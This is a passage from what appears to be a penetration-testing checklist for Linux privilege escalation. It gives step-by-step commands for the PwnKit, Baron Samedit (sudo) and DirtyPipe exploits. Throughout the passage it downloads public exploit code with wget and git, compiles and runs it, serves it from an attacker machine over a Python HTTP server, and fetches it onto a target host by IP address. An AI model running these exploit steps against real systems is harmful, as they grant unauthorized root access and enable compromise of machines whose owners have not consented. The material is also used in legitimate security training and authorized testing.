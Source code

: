 - [ ] Compile binary
```bash
gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
```

- [ ] Execute PoC exploit
```bash
./cve-2021-4034-poc
```


## Sudo heap based buffer overflow (Baron Samedit CVE-2021-3156)
https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt

- [ ] Download file
```
wget https://codeload.github.com/blasty/CVE-2021-3156/zip/main
```
- Untested: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

- [ ] Compile binary
```
unzip main
cd CVE-2021-3156-main
make
chmod 777 sudo-hax-me-a-sandwich
./sudo-hax-me-a-sandwich
```

- [ ] Run exploit
```
./sudo-hax-me-a-sandwich 0
./sudo-hax-me-a-sandwich 1
./sudo-hax-me-a-sandwich 2
```

## DirtyPipe (CVE-2022-0847)

- [ ] Download dirtyPipe vulnerability checker and serve
```
wget https://raw.githubusercontent.com/basharkey/CVE-2022-0847-dirty-pipe-checker/main/dpipe.sh
python3 -m http.server 80
```

- [ ] Download on target
```
wget 192.168.45.169/dpipe.sh
```

- [ ] Run vulnerability checker 
```
chmod +x dpipe.sh 
./dpipe.sh
```

- [ ] Clone repo for dirtypipe and serve
```
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
python3 -m http.server 80
```
